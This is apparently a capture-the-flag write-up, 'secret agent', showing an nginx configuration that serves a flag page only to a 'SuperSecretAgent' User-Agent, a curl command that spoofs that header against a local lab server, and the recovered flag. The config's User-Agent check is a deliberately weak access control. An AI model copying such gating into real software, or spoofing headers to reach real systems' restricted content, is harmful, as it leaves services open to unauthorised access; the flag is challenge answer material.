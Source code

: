 # secret agent

## Write-up

* Nginx configuration :  

```nginx
events {
}

http {
  server {
    listen 80;

    location = /flag.html {
      if ($http_user_agent = SuperSecretAgent) {
	rewrite ^ /flag.html break;
      }
      rewrite ^ /no_flag_for_you.html break;
    }

    location = /alive {
      return 200;
    }
  }
}
```

* When requesting `/flag.html`, the server checks if the User Agent HTTP header is `SuperSecretAgent`

* We can simply make the request with `SuperSecretAgent` as the User Agent :  

```bash
curl http://127.0.0.1:3003/flag.html -A SuperSecretAgent
```

* Output :  

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width-device-width, initial-scale=1.0" />
    <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.4/css/all.min.css" rel="stylesheet"/>
    <link href="https://unpkg.com/tailwindcss@^2/dist/tailwind.min.css" rel="stylesheet"/>
    <title>Secret Agent</title>
  </head>
  <body class="bg-gray-50">
    <header>
      <div class="flex flex-row bg-gray-100 px-5 py-2">
        <a href="/" class="hover:underline hover:text-blue-500 text-black py-1 px-4 font-bold">
          <i class="ml-2 fas fa-user-secret"></i> Secret Agent
        </a>
      </div>
    </header>

    <main>
      <div class="my-5 flex justify-center items-center relative z-20">
        <h1 class="text-black text-5xl font-bold">shellmates{$uuUuUUP3r_S3CR37_aG3Nt}</h1>
      </div>
    </main>

  </body>
</html>
```

## Flag

`shellmates{$uuUuUUP3r_S3CR37_aG3Nt}`
